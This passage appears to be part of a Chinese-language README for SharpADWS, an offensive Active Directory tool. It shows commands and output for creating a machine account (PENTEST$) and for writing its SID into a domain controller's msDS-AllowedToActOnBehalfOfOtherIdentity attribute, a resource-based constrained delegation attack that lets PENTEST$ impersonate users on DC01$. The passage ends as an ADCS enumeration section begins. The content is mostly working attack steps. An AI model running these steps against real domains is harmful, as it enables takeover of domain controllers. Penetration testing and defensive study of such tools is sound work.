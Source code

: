 ### AddComputer

AddComputer method 允许您在 ms-DS-MachineAccountQuota 属性值限制的范围内创建一个新的计算机账户，该极其账户可用于后续的 RBCD 攻击中使用。

```cmd
C:\Users\Marcus>SharpADWS.exe AddComputer -computer-name PENTEST$ -computer-pass Passw0rd

[*] Successfully added machine account PENTEST$ with password Passw0rd.

```

### RBCD

RBCD method 的 `read` 能够读取指定账户对象的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性值，以检查谁有权限对该账户进行资源委派，如下所示：

```cmd
C:\Users\Marcus>SharpADWS.exe RBCD -action read -delegate-to DC01$

[*] Accounts allowed to act on behalf of other identity:
[*]     WIN-IISSERVER$    (S-1-5-21-1315326963-2851134370-1073178800-1106)
[*]     WIN-MSSQL$    (S-1-5-21-1315326963-2851134370-1073178800-1103)
[*]     WIN-PC8087$    (S-1-5-21-1315326963-2851134370-1073178800-1117)

```

RBCD method 的 `write` 能够写入目标账户对象的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，以进行 Resource-Based Constrained Delegation 攻击。如下所示，我们首先用 AddComputer method 创建了一个新的极其账户 `PENTEST$`，然后我们可以执行以下命令，将 `PENTEST$` 的 SID 写入 `DC01$` 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中：

```cmd
C:\Users\Marcus>SharpADWS.exe RBCD -action write -delegate-to DC01$ -delegate-from PENTEST$

[*] Delegation rights modified successfully!
[*] PENTEST$ can now impersonate users on DC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     PENTEST$    (S-1-5-21-1315326963-2851134370-1073178800-1113)

```

此外，通过 `remove` 可以将 `write` 中添加的 SID 从目标对象的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中移除：

```cmd
C:\Users\Marcus>SharpADWS.exe RBCD -action remove -delegate-to DC01$ -delegate-from PENTEST$

[*] Delegation rights modified successfully!
[*] Accounts allowed to act on behalf of other identity has been removed:
[*]     PENTEST$    (S-1-5-21-1315326963-2851134370-1073178800-1113)

```

### Certify

Certify method 的 `find` 能够像 [Certify](https://github.com/GhostPack/Certify) 一样枚举 ADCS 中的数据，包括所有的证书颁发机构和证书模版：
